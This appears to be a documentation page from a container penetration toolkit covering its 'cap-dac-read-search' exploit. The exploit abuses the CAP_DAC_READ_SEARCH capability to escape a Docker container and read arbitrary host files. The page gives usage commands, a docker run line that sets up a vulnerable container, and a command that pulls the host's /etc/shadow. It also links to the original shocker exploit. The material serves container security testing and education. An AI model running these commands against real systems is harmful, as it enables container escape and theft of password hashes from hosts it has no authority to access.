 # Exploit: cap-dac-read-search

Thanks @nikitastupin.

If container is run with `CAP_DAC_READ_SEARCH` capability it is able to read arbitrary file from host system. This is possible because `CAP_DAC_READ_SEARCH` gives ability to bypass DAC (discretionary access control) checks and open files by file handles which are global file identifiers. Original exploit can be found at http://stealth.openwall.net/xSports/shocker.c.

# Usage

```
cdk run cap-dac-read-search <target> <ref>
# read target file from host. First argument is target file. Second argument is file bind-mounted to container from host
```

# Example

1. Build `cdk`
1. Run a docker container `docker run -it --rm --cap-add CAP_DAC_READ_SEARCH -v "$(pwd)/cdk":/cdk ubuntu /bin/bash` 1. Run `cdk` exploit inside the container `cdk run cap-dac-read-search /etc/shadow /etc/hosts`

You should get `/etc/shadow` from host:

![host-shadow](https://user-images.githubusercontent.com/18281368/116560938-83be8380-a90a-11eb-9c07-5c58cc7a19b8.png)

Verify that `/etc/shadow` from container is different:

![container-shadow](https://user-images.githubusercontent.com/18281368/116560929-81f4c000-a90a-11eb-8ed1-cce4692a6b48.png)